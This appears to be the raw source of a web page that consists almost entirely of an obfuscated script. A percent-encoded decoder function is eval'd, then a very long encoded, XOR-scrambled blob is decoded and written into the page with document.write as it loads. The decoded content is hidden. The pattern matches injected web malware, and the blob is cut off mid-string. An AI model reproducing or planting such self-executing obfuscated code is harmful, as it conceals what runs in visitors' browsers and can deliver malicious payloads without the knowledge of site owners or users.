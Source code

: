 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%72%35%36%63%61%39%30%64%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%31%37%36%33%37%36%32%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%30%34%31%35%38%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%35%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%72%35%36%63%61%39%30%64%28%27') + '%44%7d%68%77%66%71%7e%2d%79%7a%74%6f%4a%22%7c%6a%7d%71%30%68%6e%7b%62%79%6d%7f%6b%70%79%27%4b%16%08%73%66%73%24%61%3d%78%3c%3d%37%34%3d%39%4a%64%31%7c%33%30%3d%30%40%2d%63%7e%74%60%79%6a%75%76%25%61%30%7d%38%62%3f%6c%31%68%35%65%30%75%3d%3b%66%66%6e%6e%29%88%7b%62%76%20%6c%30%78%39%35%63%38%3b%3d%42%60%34%78%3e%3d%3d%35%31%6c%31%7a%3f%37%33%68%3f%60%47%61%35%7d%30%6e%3c%63%39%6c%2c%2b%48%79%68%6e%71%62%29%21%2e%60%66%2f%85%71%72%7b%80%7b%6e%73%22%6c%35%79%69%30%3e%3b%3c%67%42%7d%62%70%70%6a%4a%72%7c%25%61%30%7d%39%3d%6f%3b%34%35%29%34%78%6f%33%2b%2e%34%3d%79%31%38%32%71%67%72%70%6f%4b%73%79%25%60%32%75%39%31%6a%39%34%30%28%35%7d%6e%6f%29%26%34%31%7c%32%38%37%70%66%77%70%6e%49%7b%79%29%65%30%75%3c%30%6b%3c%34%31%2a%3d%7d%62%69%2b%26%31%30%7d%38%38%71%61%7f%78%6e%4f%76%71%28%61%35%7d%31%31%6c%34%3c%31%2c%30%75%63%39%2e%2e%3c%31%7a%31%2f%29%33%70%6e%72%7d%6a%4e%7b%7d%2a%6c%35%79%38%30%63%39%39%35%2d%3d%79%61%6e%2e%2a%35%30%75%3f%2b%30%32%7d%62%70%70%6a%4a%72%7c%25%61%30%7d%39%3d%6f%3b%34%35%29%34%78%6e%6f%2b%2e%34%3d%79%3c%38%75%62%76%7d%62%4b%76%79%2d%6c%31%7a%31%35%6f%3d%39%3d%28%30%7d%66%32%2a%29%3c%35%79%3d%2a%25%70%63%77%78%62%4a%74%71%2d%60%34%78%31%30%6e%3c%3c%3d%29%32%75%66%6d%2f%2b%3c%30%78%3d%2e%38%71%61%7f%78%6e%4f%76%71%28%61%35%7d%31%31%6c%34%3c%31%2c%30%75%63%38%2e%2e%3c%31%7a%36%2f%29%74%63%7f%7d%6f%4e%73%71%29%63%3d%7d%3d%34%6e%34%39%30%2d%35%75%62%39%26%2e%30%34%78%6e%2b%45%6e%6b%25%60%32%75%68%31%37%3b%31%62%47%42%42%6c%31%7a%30%3e%62%67%63%62%2b%62%77%6a%6e%74%47%62%71%7c%6b%20%6c%30%78%37%37%3f%6d%3d%60%60%28%74%7f%70%68%29%62%2d%6c%31%7a%3f%37%33%68%3f%60%65%29%78%6d%66%6f%7e%24%62%29%2f%2b%48%87%6d%66%79%60%69%2a%6c%35%79%37%6f%62%62%3d%67%2e%88%60%32%75%37%33%36%6c%32%6d%65%2c%75%72%7c%6a%24%62%29%65%30%75%32%32%37%69%32%6c%67%24%78%69%6f%6e%71%29%67%2d%2e%26%44%85%8a%82%29%65%30%75%3d%6e%39%6a%39%31%7a%60%39%39%3c%62%26%34%6f%7b%66%79%29%6c%72%73%6c%78%6b%7c%76%28%64%35%75%3e%3b%63%39%3f%68%34%6c%30%78%37%6b%3d%3d%3f%62%31%60%34%78%31%30%6e%66%3b%31%35%63%3d%7d%3e%68%3d%6e%3c%33%31%64%3d%79%3d%35%37%62%3c%6e%39%61%30%7d%6a%3f%62%60%6f%38%2a%81%7e%6e%72%20%64%35%75%3d%32%36%36%3e%37%47%6c%30%78%36%38%30%31%47%6c%35%79%3b%38%3f%63%38%6b%42%63%7e%74%60%79%6a%75%76%25%61%30%7d%38%3e%6d%60%6e%3a%2a%81%7e%6e%72%20%64%35%75%3e%60%62%3b%63%39%47%6c%30%78%36%38%30%31%47%7f%6a%7d%7b%72%7b%28%61%35%7d%30%32%6e%6f%66%3e%40%61%3d%78%32%6b%35%31%3c%6d%4c%2c%28%3e%61%3d%78%3f%3d%37%6e%39%6c%25%75%62%76%7d%62%4b%76%79%2d%6c%31%7a%30%36%6d%66%63%32%31%61%35%7d%3f%6f%32%31%38%6e%2f%2b%26%35%28%2d%64%3d%79%3f%3e%69%63%67%3f%4a%61%30%7d%38%3e%6d%60%6e%3a%2e%65%30%75%32%6e%35%39%30%6e%29%4b%35%79%36%3d%4c%5d%7c%77%6e%7b%68%67%24%6b%73%75%77%40%68%63%77%48%7c%6d%6d%24%62%29%65%30%75%3d%33%69%67%6e%3e%37%3d%7d%32%68%2b%37%61%30%7d%38%3e%6d%60%6e%3a%64%65%30%75%3f%62%6a%3b%6f%3c%2a%3d%7d%62%66%2b%6a%28%30%7d%37%31%2a%29%48%82%44%6f%6e%25%23%29%2c%60%6c%31%7a%31%35%3a%37%3f%3e%28%30%7d%66%31%2a%65%25%34%67%35%34%50%7c%72%6e%73%64%2a%29%88%7c%69%6f%74%62%28%61%35%7d%31%31%6c%6e%3b%3d%33%37%26%85%61%35%7d%62%33%61%6f%67%3c%61%61%3d%78%3f%3d%37%6e%39%6c%25%64%31%7c%3c%3d%6e%63%3b%39%26%66%45%6c%35%79%3b%6c%30%63%3c%36%60%6c%31%7a%31%35%6f%67%3e%31%67%84%81%64%3d%79%3d%35%37%62%3c%6e%25%61%30%7d%39%3d%6f%61%33%39%2a%41%87%6c%30%78%3a%69%30%62%3e%3e%42%64%6a%7f%7b%6d%7c%6e%74%7b%29%63%3d%7d%33%3a%3d%34%3b%62%2e%80%7f%6e%7e%72%77%77%24%61%3d%78%6f%37%66%6f%63%3f%68%64%31%7c%32%33%3d%39%3e%67%6a%44%85%6a%31%60%34%78%32%38%32%66%3d%63%46%6c%72%73%6c%78%6b%7c%76%28%2e%80%73%62%70%2d%64%31%7c%3f%32%39%6e%68%38%4a%60%32%75%39%31%3f%33%32%33%45%77%6a%71%7e%70%7b%25%60%34%78%32%3f%39%6b%68%30%29%32%75%66%3c%2f%45%8a%34%61%35%7d%31%31%6c%6e%3b%3d%43%30%75%33%45%82%40%74%69%69%79%6a%29%65%30%75%3c%30%6b%66%33%3d%35%3a%2e%84%65%30%75%3f%6c%38%66%31%32%67%6c%35%79%38%30%63%63%3e%39%62%23%2f%2a%6c%35%79%3b%39%63%3c%3e%69%42%6c%31%7a%32%3c%6f%38%3e%61%65%61%35%7d%31%31%39%3e%3a%32%2c%30%75%63%3c%2e%62%25%77%6d%74%25%53%6b%69%42%78%70%2d%2c%69%79%3d%60%67%28%31%61%3d%78%3f%3d%37%6e%39%6c%25%64%31%7c%3c%3d%6e%63%3b%39%26%34%2b%69%7d%3e%69%62%24%34%29%6c%2c%26%35%63%3d%7d%3e%68%3d%6e%3c%33%60%64%3d%79%3e%3d%6b%62%3a%3c%6a%2b%2b%40%82%7f%6e%7e%72%77%77%24%61%3d%78%3f%3c%6b%31%3f%6e%48%82%29%65%30%75%3c%38%37%3c%31%3a%2a%3d%7d%63%34%2b%39%30%78%38%6a%39%31%7a%3e%3a%6f%30%61%3d%78%3c%3d%37%34%3d%39%25%35%79%67%3e%26%65%61%35%7d%31%39%30%34%39%3a%2c%30%75%63%32%2e%62%25%28%86%24%2e%35%34%78%3d%34%85%82%2e%26%2a%47%63%7a%77%69%7c%66%71%76%25%64%3d%79%31%30%38%31%2c%61%3d%78%38%38%35%30%3d%6e%39%64%31%7c%3c%32%33%32%3a%36%26%84%7c%6e%77%21%65%30%75%3d%6e%39%6a%34%39%45%6c%35%79%39%6e%31%6f%28%2e%40%7f%6e%7e%72%77%77%24%61%3d%78%33%38%38%3d%46%6c%72%73%6c%78%6b%7c%76%28%64%35%75%32%3f%30%35%3e%37%34%6c%30%78%3a%3a%35%3e%6f%61%2e%84%65%30%75%33%3d%38%35%32%32%45%6c%35%79%37%3d%30%30%3f%36%32%3d%79%61%3f%40%7f%67%72%2d%61%30%7d%3a%3d%31%60%32%3e%46%65%30%75%3d%6e%39%6a%34%39%67%6c%35%79%37%3d%30%30%3f%36%62%48%73%6d%71%7a%73%72%20%6c%30%78%3a%35%3d%63%3d%36%40%86%30%61%3d%78%33%38%38%3d%29%63%3d%7d%39%39%30%30%3c%6c%31%64%3d%79%3e%32%36%33%3b%33%26%45%87%6b%7a%7b%6c%7e%66%74%77%24%61%3d%78%3d%6b%39%62%29%29%88%7b%62%76%20%6c%30%78%37%36%6e%3f%3e%34%42%64%2d%33%34%30%38%39%3a%3f%7d%61%6f%5a%68%49%29%39%29%33%38%35%7f%73%58%54%51%4b%2d%34%24%3f%7e%49%4c%54%6e%69%24%31%28%78%71%50%7c%72%6e%73%64%28%36%24%36%31%3c%30%36%30%3d%68%68%5f%49%7b%66%2c%35%2d%3c%35%52%6d%5d%6c%46%7b%2b%39%2c%3f%39%3d%36%33%3b%3d%46%7e%54%5d%40%6e%28%30%29%35%3f%39%3e%36%33%5f%48%4e%70%73%7e%29%39%29%28%72%2d%3e%5d%36%3e%7f%2a%81%75%69%78%32%35%71%4a%7f%36%4f%42%32%58%28%26%45%5a%2d%26%2e%64%65%26%80%32%7c%85%78%64%78%37%35%3e%4c%45%6e%2d%75%2c%33%7a%2b%2b%34%74%38%36%61%25%71%29%37%7e%26%2b%31%54%2f%25%62%2a%79%2d%32%6c%2b%26%31%33%6a%2e%38%62%2a%79%2d%33%4e%2b%26%31%32%76%30%6e%29%76%25%36%6a%2f%2b%3c%33%74%30%66%25%75%2a%3e%7a%2a%2f%31%3f%72%35%32%66%25%75%2a%3f%78%2a%2f%31%3e%3b%2a%2d%32%6e%29%76%25%37%7d%2f%2b%3c%32%7f%2e%30%6e%29%76%25%36%7d%2f%2b%3c%32%7e%2f%2d%3a%62%2a%79%2d%33%73%2b%26%31%32%4e%2e%48%32%6f%25%36%4c%43%47%4a%33%7a%2e%36%63%44%31%64%61%79%36%30%4f%65%64%7d%37%34%53%66%75%37%38%63%28%4f%65%64%7d%37%34%5c%66%75%37%38%63%28%26%2b%87%36%70%25%33%4b%26%80%43%61%64%75%32%39%57%61%75%33%3b%6a%2d%43%61%64%75%32%39%58%61%75%33%3b%6a%2d%2a%2f%87%8a%87%28%4c%31%3f%55%29%26%40%74%60%78%3f%30%33%42%4e%48%76%66%75%37%31%4f%28%3e%42%34%36%46%26%84%77%69%7d%33%34%33%59%47%48%2d%2e%48%73%66%75%37%31%4f%47%7a%28%57%31%36%57%2a%87%5a%42%56%33%28%7c%2a%37%37%68%38%32%70%27%74%34%39%71%26%45%75%61%7d%3f%31%31%46%42%32%50%65%5a%67%45%77%61%75%33%32%3e%4e%86%30%4b%25%33%42%31%36%4e%2a%85%7a%61%79%36%30%44%28%2b%80%70%69%79%30%3d%36%3f%43%65%69%78%32%3c%38%72%65%7a%3f%3c%35%60%78%3f%39%2f%6f%2a%63%2e%69%22%61%79%36%39%39%64%78%37%3c%30%78%66%75%37%38%30%64%75%32%39%2a%6a%22%3c%4f%22%6b%2e%60%78%3f%39%34%61%7d%3f%38%30%22%7a%2e%66%2f%3f%32%64%7d%37%34%35%66%75%37%38%2b%62%22%62%2f%76%2a%69%79%30%34%31%65%7c%32%34%43%2f%37%35%22%3c%6d%22%6a%65%7c%32%34%34%64%7d%37%34%2e%7f%22%6b%2e%77%2f%69%78%32%3c%31%69%79%30%34%7d%2e%7b%2f%61%2f%3e%61%7d%3f%38%36%69%7d%33%3d%3b%22%73%2f%38%46%22%3c%32%69%7d%33%3d%34%69%78%32%3c%2a%30%31%2d%30%47%2e%36%32%22%64%78%37%3c%39%65%7a%3f%3c%2e%39%42%22%7c%2f%6b%2a%69%79%30%34%31%65%7c%32%34%3d%33%2a%39%30%2e%3f%4f%2a%31%60%78%3f%39%34%61%7d%3f%38%2d%61%2a%6b%2b%79%22%64%78%37%3c%39%65%7a%3f%3c%3d%2b%3d%4f%2f%6f%2a%37%3d%65%7a%3f%3c%35%60%78%3f%39%32%5a%61%75%33%3b%39%61%79%36%39%3f%59%64%7d%37%34%35%66%75%37%38%4a%2f%71%2f%78%2a%7a%69%79%30%34%31%65%7c%32%34%32%58%61%7d%3f%38%36%69%7d%33%3d%32%51%64%78%37%3c%39%65%7a%3f%3c%2e%36%30%22%6f%2f%37%35%22%65%7a%3f%3c%35%60%78%3f%39%3c%2a%56%22%6d%2d%6f%61%79%36%39%39%64%78%37%3c%5f%65%7a%3f%3c%35%60%78%3f%39%2f%37%35%22%6b%2d%60%2a%65%7c%32%34%34%64%7d%37%34%2e%6e%22%6e%2e%78%2f%69%78%32%3c%31%69%79%30%34%37%5c%60%78%3f%39%34%61%7d%3f%38%51%22%69%2e%66%2f%30%64%78%37%3c%39%65%7a%3f%3c%33%55%64%75%32%39%31%61%75%33%3b%22%38%4e%2b%6f%22%6f%2f%61%7d%3f%38%36%69%7d%33%3d%32%5b%64%78%37%3c%39%65%7a%3f%3c%3d%2b%5f%22%6e%2f%76%61%75%33%3b%39%61%79%36%39%7d%2f%69%2a%78%22%3f%66%75%37%38%30%64%75%32%39%67%2a%3f%33%2d%3f%35%2e%3d%64%75%32%39%31%61%75%33%3b%3f%55%65%7c%32%34%34%64%7d%37%34%31%2d%71%2a%6f%2b%5f%69%78%32%3c%31%69%79%30%34%68%2e%39%43%22%3d%33%2a%38%69%79%30%34%31%65%7c%32%34%2f%3d%4a%2a%62%2e%30%3d%2a%65%7c%32%34%34%64%7d%37%34%2e%71%22%38%42%2b%78%22%64%78%37%3c%39%65%7a%3f%3c%2e%36%30%22%32%30%2a%53%22%65%7a%3f%3c%35%60%78%3f%39%6e%2a%37%5e%2e%60%22%3b%65%7c%32%34%34%64%7d%37%34%2e%31%55%2a%7c%2b%69%22%64%78%37%3c%39%65%7a%3f%3c%5c%60%78%3f%39%34%61%7d%3f%38%6b%22%67%2e%66%2f%33%64%78%37%3c%39%65%7a%3f%3c%33%5f%64%75%32%39%31%61%75%33%3b%22%6c%2e%7b%2f%6f%2f%64%7d%37%34%35%66%75%37%38%39%63%69%78%32%3c%31%69%79%30%34%35%2e%39%43%22%32%4c%2a%38%3e%65%7a%3f%3c%35%60%78%3f%39%2f%6b%2a%60%2e%72%22%61%79%36%39%39%64%78%37%3c%31%2e%79%22%6f%2e%39%43%69%78%32%3c%31%69%79%30%34%2a%33%34%2f%7b%2f%62%2a%61%75%33%3b%39%61%79%36%39%22%32%4e%2a%37%43%2e%79%22%61%79%36%39%39%64%78%37%3c%43%2e%3f%6f%2a%71%2b%6c%69%78%32%3c%31%69%79%30%34%38%32%2b%3d%3d%2f%3d%35%2a%34%65%7a%3f%3c%35%60%78%3f%39%3d%68%61%75%33%3b%39%61%79%36%39%31%2f%3d%46%2a%3f%3c%2d%30%36%65%7c%32%34%34%64%7d%37%34%42%2d%30%36%2e%39%30%22%3d%30%61%7d%3f%38%36%69%7d%33%3d%2f%76%2f%6b%2a%68%22%65%7a%3f%3c%35%60%78%3f%39%4c%2a%37%43%2e%30%3f%2a%33%34%64%75%32%39%31%61%75%33%3b%63%2a%7c%2b%76%22%39%64%7d%37%34%35%66%75%37%38%38%2f%6f%2f%69%2a%38%4e%65%7a%3f%3c%35%60%78%3f%39%6b%2a%7a%22%72%2d%33%61%79%36%39%39%64%78%37%3c%30%6d%66%75%37%38%30%64%75%32%39%37%49%22%6c%2d%66%2a%38%60%78%3f%39%34%61%7d%3f%38%3c%22%79%2e%39%42%22%6f%64%7d%37%34%35%66%75%37%38%34%2f%5b%2f%70%2a%6c%69%79%30%34%31%65%7c%32%34%39%2f%67%2a%77%2e%31%55%61%79%36%39%39%64%78%37%3c%42%2e%3f%41%2a%33%36%2f%60%64%78%37%3c%39%65%7a%3f%3c%3c%36%64%75%32%39%31%61%75%33%3b%22%68%2e%6d%2f%72%2f%64%7d%37%34%35%66%75%37%38%2b%4a%22%7c%2f%38%47%22%65%7a%3f%3c%35%60%78%3f%39%3d%3b%61%75%33%3b%39%61%79%36%39%40%2f%6b%2a%78%22%6b%66%75%37%38%30%64%75%32%39%2a%69%22%63%2d%30%4a%65%7c%32%34%34%64%7d%37%34%2e%6c%22%78%2e%72%2f%69%78%32%3c%31%69%79%30%34%38%69%60%78%3f%39%34%61%7d%3f%38%2d%70%2a%3c%47%2f%30%30%2f%61%7d%3f%38%36%69%7d%33%3d%4c%22%62%2f%37%35%22%6b%66%75%37%38%30%64%75%32%39%7f%2a%66%2e%6b%22%3b%65%7c%32%34%34%64%7d%37%34%3d%2d%30%46%2e%39%33%22%3d%30%61%7d%3f%38%36%69%7d%33%3d%2f%3f%30%2f%38%4a%22%3c%4f%22%61%79%36%39%39%64%78%37%3c%3f%31%2d%77%2a%6a%2b%3e%69%78%32%3c%31%69%79%30%34%2a%3c%46%2f%62%2f%32%35%2a%69%79%30%34%31%65%7c%32%34%70%2f%69%2a%61%2e%3c%69%7d%33%3d%34%69%78%32%3c%38%34%65%7a%3f%3c%35%60%78%3f%39%79%2a%6c%22%63%2d%33%61%79%36%39%39%64%78%37%3c%22%3c%31%22%38%32%2b%3d%32%2f%64%7d%37%34%35%66%75%37%38%36%4f%22%79%2f%6e%2a%33%65%7a%3f%3c%35%60%78%3f%39%3d%38%61%75%33%3b%39%61%79%36%39%62%2f%3d%48%2a%67%2e%3b%69%7d%33%3d%34%69%78%32%3c%3a%22%72%2d%30%49%2e%36%32%69%78%32%3c%31%69%79%30%34%38%39%60%78%3f%39%34%61%7d%3f%38%3f%36%61%79%36%39%39%64%78%37%3c%3f%2e%72%22%53%2e%66%64%75%32%39%31%61%75%33%3b%52%2a%6c%2b%76%22%3d%64%7d%37%34%35%66%75%37%38%7c%2f%64%2f%70%2a%3b%69%79%30%34%31%65%7c%32%34%30%2f%38%35%22%4b%2d%7b%61%79%36%39%39%64%78%37%3c%22%68%2d%74%2a%3c%48%2f%69%78%32%3c%31%69%79%30%34%2a%3c%38%2f%47%2f%7c%2a%61%75%33%3b%39%61%79%36%39%22%6f%2f%37%35%22%33%32%22%61%79%36%39%6a%45%49%42%72%25%2a%87%7f%61%79%36%30%3e%3e%87%40%77%69%79%30%3d%4c%29%2f%87%7a%64%78%37%35%73%29%5a%39%36%32%2f%85%78%64%78%37%35%3e%3c%45%44%2d%2a%41%72%69%78%32%35%7b%4a%76%2a%59%31%33%5e%2b%88%54%47%51%32%3e%5a%47%78%61%79%36%30%3e%38%47%36%38%68%55%65%48%77%65%7c%32%3d%33%38%82%31%73%29%5a%39%36%32%2f%87%25%77%28%36%35%39%32%60%26%80%74%60%78%3f%30%50%42%7b%39%69%45%46%31%54%43%33%3d%28%2b%40%5f%25%22%21%68%62%2a%81%33%75%85%75%61%7d%3f%31%31%6e%42%36%67%28%65%28%32%5b%2e%26%30%2a%3a%38%6f%2e%37%30%7e%35%32%74%27%36%3f%71%30%36%37%70%27%33%72%2e%30%3a%62%2a%65%2d%3c%7c%2b%26%31%28%38%7e%38%36%3f%45%30%3c%4d%2b%27%28%63%2d%6d%25%3c%4c%26%2e%30%2c%3d%77%35%37%38%78%38%3c%70%26%2e%34%33%63%25%68%28%36%7b%26%2a%33%25%38%74%31%37%30%6a%35%38%6e%27%36%31%36%2e%34%67%28%65%28%3d%6c%2e%26%30%2a%3a%74%2b%36%57%38%3d%74%30%54%27%36%3f%7a%2e%34%67%28%65%28%3d%76%2e%26%30%2a%7c%2f%36%39%70%38%3d%76%2f%74%38%36%3f%46%2e%2b%2c%37%6e%28%68%2d%37%45%2a%29%3c%2d%36%36%6c%27%37%51%30%32%5c%2b%30%6f%30%33%67%2a%3a%32%6f%2e%2e%38%36%61%25%6d%29%36%6e%26%2b%31%2d%32%3f%6b%37%3a%37%3a%31%37%51%2a%37%37%6c%26%2b%2a%6e%2d%69%2c%33%5a%2b%2b%34%2d%3f%3f%37%3e%71%2b%33%32%3e%35%32%3c%2f%7c%2a%29%38%32%62%2c%68%25%32%68%2e%2e%3c%29%31%62%2f%36%36%42%38%32%74%2f%37%76%34%35%3f%48%2b%75%2b%27%28%37%66%2d%65%29%30%75%2e%2a%35%28%3f%79%2a%37%75%38%33%73%38%32%33%72%2b%26%45%33%68%2d%3e%62%45%4a%42%32%66%2b%3e%6e%45%36%6c%69%79%30%3d%50%64%54%28%3e%6c%2b%62%2d%58%64%52%25%36%6b%2f%67%25%2b%2b%82%36%78%29%30%4e%2e%84%51%65%69%78%32%3c%57%69%79%30%34%62%29%51%65%5d%28%33%6f%2e%6a%29%29%26%82%86%83%28%45%34%37%37%50%38%33%78%38%37%39%2f%34%3f%3f%65%36%2d%3f%3d%29%6a%2d%33%71%28%3e%28%32%6e%2e%38%32%2a%3f%57%2a%31%33%25%3c%38%2e%30%3e%29%31%54%2e%34%37%28%32%68%2b%30%36%25%3e%4f%26%30%32%2c%3f%73%2b%35%36%2d%3e%4d%29%38%36%29%37%68%26%35%33%2d%36%7e%2a%37%3e%2d%3e%7f%2b%38%33%28%3a%69%26%34%31%25%3a%6e%2f%35%3e%28%33%6e%2e%38%32%2a%31%57%2a%31%33%25%3c%5c%2e%30%3e%29%3e%52%2e%34%37%28%54%2b%35%36%2d%31%5f%29%38%36%29%37%4e%26%35%33%2d%39%59%2a%37%3e%2d%3d%5f%2b%38%33%28%36%54%26%34%31%25%36%53%2f%35%3e%28%33%74%2e%38%32%2a%32%35%2a%31%33%25%3f%3c%2e%30%3e%29%31%32%2e%34%37%28%3e%50%2b%30%36%25%3d%5f%26%30%32%2c%5c%26%35%33%2d%3a%30%2a%37%3e%2d%32%4c%2b%38%33%28%5e%2e%38%32%2a%3e%4f%2a%31%33%25%3f%32%2e%30%3e%29%31%52%2e%34%37%28%3e%49%2b%30%36%25%3e%31%26%30%32%2c%3c%57%2b%35%36%2d%32%3e%29%38%36%29%37%55%26%35%33%2d%3a%33%2a%37%3e%2d%3e%66%2b%38%33%28%36%7c%26%34%31%25%3a%6c%2f%35%3e%28%3f%66%2e%38%32%2a%30%4f%2a%31%33%25%33%6c%2e%30%3e%29%3d%36%2e%34%37%28%32%39%2b%30%36%25%3e%3a%26%30%32%2c%3c%55%2b%35%36%2d%31%57%29%38%36%29%38%51%26%35%33%2d%39%5a%2a%37%3e%2d%3d%51%2b%38%33%28%39%55%26%34%31%25%36%7c%2f%35%3e%28%3c%56%2e%38%32%2a%31%5c%2a%31%33%25%3f%4f%2e%30%3e%29%3d%74%2e%34%37%28%32%78%2b%30%36%25%3e%78%26%30%32%2c%3f%4e%2b%35%36%2d%32%4d%29%38%36%29%3b%42%26%35%33%2d%3a%72%2a%37%3e%2d%32%36%2b%38%33%28%5b%2e%38%32%2a%32%79%2a%31%33%25%3f%6a%2e%30%3e%29%3d%78%2e%34%37%28%3e%56%2b%30%36%25%32%74%26%30%32%2c%3f%66%2b%35%36%2d%3e%76%29%38%36%29%37%7c%26%35%33%2d%36%31%2a%37%3e%2d%3e%6a%2b%38%33%28%3a%6c%26%34%31%25%5b%2a%31%33%25%3f%74%2e%30%3e%29%31%50%2e%34%37%28%32%77%2b%30%36%25%32%3b%26%30%32%2c%33%42%2b%35%36%2d%53%2a%37%3e%2d%3e%76%2b%38%33%28%3a%78%26%34%31%25%3a%72%2f%35%3e%28%3f%75%2e%38%32%2a%3e%56%2a%31%33%25%3f%76%2e%30%3e%29%31%72%2e%34%37%28%32%71%2b%30%36%25%3d%48%26%30%32%2c%3c%45%2b%35%36%2d%3e%7a%29%26%2e%2a%41%77%69%78%32%35%4d%25%2a%87%78%61%79%36%30%35%47%7e%31%36%53%46%67%35%2d%32%7d%2b%39%38%28%39%39%26%35%3a%25%39%3e%2f%34%35%28%3c%37%2e%39%39%2a%31%36%2a%30%38%25%33%7d%2e%31%35%29%3f%57%2e%35%3c%28%31%30%2b%31%3d%25%3d%3c%26%31%39%2c%3c%34%2b%34%61%7d%3f%38%30%43%2a%6f%2b%78%22%39%64%7d%37%34%35%3a%25%36%77%2f%34%35%28%3c%68%2e%39%39%2a%3e%74%2a%30%38%25%3c%62%2e%31%35%29%31%7d%2e%35%3c%28%3e%73%2b%31%3d%25%3d%61%26%31%65%7c%32%34%3d%4c%2a%37%3f%2e%6f%22%3c%65%7c%32%34%34%38%2d%36%32%2a%36%35%2d%3d%4f%2b%39%38%28%39%3e%26%35%3a%25%38%5a%2f%34%35%28%3d%5d%2e%39%39%2a%30%54%2a%30%38%25%3d%50%2e%31%35%29%31%34%2e%35%60%78%3f%39%32%37%2a%3f%31%2d%5b%2a%3f%60%78%3f%39%34%3d%2d%3e%3d%29%39%61%79%36%39%36%2f%6d%2a%6b%22%6a%66%75%37%38%30%38%25%33%7b%2e%31%35%29%3f%5b%2e%35%60%78%3f%39%3d%52%61%75%33%3b%39%3d%29%39%55%26%34%64%7d%37%34%6e%2d%3f%35%2e%39%4d%22%32%64%7d%37%34%35%3a%25%36%33%2f%34%35%28%5c%2e%31%69%79%30%34%48%2e%6e%2f%74%2f%69%61%7d%3f%38%36%69%7d%33%3d%2f%60%2f%76%2a%38%4e%2e%66%75%37%38%30%38%25%3d%54%2e%31%35%29%3f%5e%2e%35%3c%28%30%52%2b%31%3d%25%5a%29%39%61%79%36%39%30%42%2f%6a%2a%3f%31%2d%3f%61%79%36%39%39%38%28%38%5c%26%35%3a%25%5c%2a%30%64%75%32%39%76%2a%3f%4e%2d%77%2a%3f%60%78%3f%39%34%3d%2d%3e%5e%29%39%3d%29%39%5e%26%34%64%7d%37%34%2e%3f%3d%2a%4b%2b%76%22%64%78%37%3c%39%39%2a%30%5a%2a%30%38%25%33%59%2e%31%69%79%30%34%37%31%2b%7b%22%70%2f%3b%61%75%33%3b%39%3d%29%39%5d%26%34%64%7d%37%34%33%4e%22%68%2e%66%2f%33%64%78%37%3c%39%39%2a%30%59%2a%30%38%25%3c%6c%2e%31%35%29%31%50%2e%35%3c%28%31%6f%2b%31%3d%25%3d%79%26%31%65%7c%32%34%6c%2f%69%2a%66%2e%3b%69%7d%33%3d%34%35%28%33%5e%2e%39%65%7a%3f%3c%4d%2b%32%3f%2f%76%2a%67%69%79%30%34%31%39%2c%33%5e%2b%34%3d%2d%3e%4e%29%39%3d%29%38%7a%26%34%38%2d%39%75%2a%36%35%2d%3d%7d%2b%39%38%28%39%7a%26%35%3a%25%39%7f%2f%34%35%28%3c%46%2e%39%39%2a%3e%49%2a%30%38%25%3c%42%2e%31%69%79%30%34%2a%6d%2b%6c%22%6a%2f%61%7d%3f%38%36%35%2d%3d%4d%2b%39%38%28%39%4b%26%35%3a%25%39%4e%2f%34%35%28%3c%48%2e%39%65%7a%3f%3c%4c%2b%62%22%4a%2f%6b%61%75%33%3b%39%3d%29%38%4c%26%34%38%2d%36%45%2a%36%35%2d%3d%78%2b%39%38%28%36%54%26%35%3a%25%36%51%2f%34%35%28%3c%78%2e%39%39%2a%3e%53%2a%30%38%25%33%57%2e%31%35%29%31%47%2e%35%3c%28%3e%55%2b%31%3d%25%3d%68%26%31%39%2c%3c%78%2b%34%3d%2d%31%6a%29%39%61%79%36%39%76%2f%6b%2a%6f%22%3f%66%75%37%38%30%64%75%32%39%39%2a%5e%2e%30%3d%2a%3d%6c%64%75%32%39%31%61%75%33%3b%34%2a%79%2b%7f%22%6c%64%7d%37%34%35%3a%25%39%6f%2f%34%35%28%3c%6c%2e%39%39%2a%31%71%2a%30%38%25%33%52%2e%31%35%29%3e%7a%2e%35%3c%28%3e%49%2b%31%3d%25%3d%70%26%31%39%2c%33%43%2b%34%61%7d%3f%38%30%3f%2a%77%2b%6d%22%39%64%7d%37%34%35%66%75%37%38%4a%2f%67%2f%6d%2a%56%69%79%30%34%31%39%2c%3c%7e%2b%34%3d%2d%31%71%29%39%3d%29%38%76%26%34%38%2d%39%7c%2a%36%69%7d%33%3d%30%22%7a%2f%75%2a%74%65%7a%3f%3c%66%41%72%69%78%32%35%4d%4a%76%2a%26%80%73%60%78%3f%30%33%5b%82%39%49%2a%26%82%28%30%29%3e%3d%30%3c%35%36%5a%50%5c%6f%69%7b%29%39%29%7d%75%71%66%7d%2b%39%2c%65%7c%3f%60%79%35%2c%31%24%73%6d%7d%71%62%69%6f%24%34%29%37%38%34%3d%31%3f%46%4f%77%6b%5d%4c%29%31%2c%89%60%32%75%38%6d%67%63%35%62%84%81%81%89%85%86%89%64%31%7c%33%35%38%6e%3b%36%89%85%72%6e%77%7c%6b%4b%7b%7c%84%3b%3a%89%38%3e%89%3b%4c%80%30%4e%84%3e%3e%81%34%33%86%6c%35%79%36%3b%31%3d%33%3a%81%33%4f%86%34%38%85%7a%63%7f%84%61%35%7d%3e%6e%3d%35%36%6e%80%6e%72%76%6d%79%6e%7c%77%86%33%3d%85%34%78%3e%84%3e%36%81%33%4e%86%7f%6a%